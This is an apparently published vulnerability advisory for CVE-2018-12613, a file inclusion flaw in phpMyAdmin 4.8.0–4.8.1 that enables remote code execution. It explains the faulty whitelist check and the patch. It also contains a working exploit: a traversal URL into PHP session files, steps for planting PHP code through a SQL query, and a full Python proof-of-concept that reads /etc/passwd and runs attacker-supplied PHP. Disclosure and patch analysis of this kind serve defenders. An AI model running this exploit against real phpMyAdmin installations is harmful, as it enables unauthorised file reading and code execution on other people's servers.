 **Vulnerabilities Summary**<br>
Authenticated users can exploit a file inclusion vulnerability in phpMyAdmin which can then be combined with another vulnerability, to perform Remote Code Execution. In addition, authenticated attackers can view files and execute PHP files that located on the server by exploiting a bug in the part of the code that is responsible for redirects and loading of whitelisted pages.

**Vendor Response**<br>
The vendor, phpMyAdmin, issued a fix on the 21st of June 2018. Version 4.8.2 and newer aren’t affected.

**CVE**<br>
CVE-2018-12613

**Credit**<br>
An independent security researcher, Henry Huang working for CyCarrier CSIRT, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
phpMyAdmin 4.8.0 and 4.8.1 (running on Linux systems)

**Vulnerability Details**<br>
The root cause of the vulnerability can be found inside /index.php file in lines 54-63 which calls the function Core::CheckPageValidity that is located in /libraries/classes/Core.php in lines 444-476:
Index.php:

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

/libraries/classes/Core.php:

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }
    if (in_array($page, $whitelist)) {
        return true;
    }
    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    return false;
}
```
We can see that there is a flaw in the check that was put in to prevent a file inclusion vulnerability, which can be bypassed by referencing ‘db_sql.php?’ in our request.
Steps to exploit the vulnerabilities:

* Log in to phpMyAdmin
* Run SQL query that contains the PHP arbitrary code, for example: select ‘<?php phpcredits(); ?>’
* Take the session ID (it is the value of the phpMyAdmin inside the cookie)
* Create using this information a URL similar to this:

`http://<your domain or ip>/phpmyadmin/index.php?target=db_sql.php%253f%2F..%2F..%2F..%2F..%2F..%2Fvar%2Flib%2Fphp%2Fsessions%2Fsess_skf209lf7h9gei97puae1829t4k1td4n`

**Result**<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/07/Capture.png">
Let’s look at the patched code and understand how the issue was fixed.<br>
Index.php:

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'], [], true)
) {
    include $_REQUEST['target'];
    exit;
}
```

Core.php:

```php
public static function checkPageValidity(&$page, array $whitelist = [], $include = false)
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }
        if (in_array($page, $whitelist)) {
            return true;
        }
        if ($include) {
            return false;
        }
        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        return false;
}
```

We can see that the function Core::CheckPageValidity has another parameter, “$include”. $include is passed as true from index.php to the function and the whitelist is empty so the function will return false and the vulnerability is now blocked.

**PoC**<br>
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import re
import sys
import random
import hashlib
import logging
import argparse
import requests
from HTMLParser import HTMLParser
logger = logging
logging.basicConfig(level=logging.DEBUG, format='%(levelname)s: %(message)s')
URL = None
PROXIES = dict()
page = '/index.php'
def _rand_md5():
    return hashlib.md5(str(random.randint(0, 10000000000000000000))).hexdigest()
def get_token(sess, page):
    resp = sess.get(URL + page)
    try:
        token = re.findall(
            r'token"\s*value="([^"]*)"', resp.content, flags=re.MULTILINE)[0]
    except IndexError:
        logger.error('Failed to get CSRF token from server')
        return None
    return HTMLParser().unescape(token)
def main(username, password, php_code, page):
    session = requests.Session()
    session.proxies = PROXIES
    token = get_token(session, page)
    session_id = _rand_md5()
    response = session.post(URL + page, data={
        'set_session': session_id,
        'pma_username': username,
        'pma_password': password,
        'server': 1,
        'target': 'index.php',
        'token': token
    })
    updir = None
    for dir_level in range(8):
        updir = '../' * dir_level
        response = session.get(URL + page, params={
            'target': 'sql.php%3F/../' + updir + 'etc/passwd'
        })
        if '/sbin/nologin' in response.content:
            logger.info('/etc/passwd is %d levels away', dir_level)
            break
    else:
        logger.error('This version is not vulnerable, or the server is not linux')
        return 1
    token = get_token(session, '/server_sql.php')
    sql = ("select '&lt;?php " + php_code + " ?&gt;'")
    logger.debug('Executing SQL query %r', sql)
    response = session.post(URL + '/import.php', data={
        'is_js_confirmed': 0,
        'token': token,
        'pos': 0,
        'goto': 'server_sql.php',
        'message_to_show': 'Your SQL query has been executed successfully',
        'prev_sql_query': '',
        'sql_query': sql,
        'sql_delimiter': ';',
        'show_query': 1,
        'fk_checks': 0,
        'SQL': 'Go',
        'ajax_request': 'true'
    })
    response = session.get(URL + '/index.php', params={
        'target': ('db_sql.php%3f/../' + updir + 'var/lib/php/sessions/sess_' + session.cookies['phpMyAdmin'])
    })
    site = open('result.html', 'w')
    site.write(response.content)
    if response.status_code == 200:
        logger.info('Payload succeed. Result is stored inside "result.html" file.')
    else:
        logger.error("Couldn't run payload")
        return 1
    return 0
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--user', required=True)
    parser.add_argument('-p', '--password', required=True)
    parser.add_argument('-U', '--url', required=True)
    parser.add_argument('-P', '--php-payload', required=True)
    args = parser.parse_args()
    URL = args.url
    sys.exit(main(args.user, args.password, args.php_payload, page))
```

**Usage**<br>
python poc.py -u <username> -p <password> -U http://<domain or ip>/phpmyadmin –php-payload=”phpcredits();”

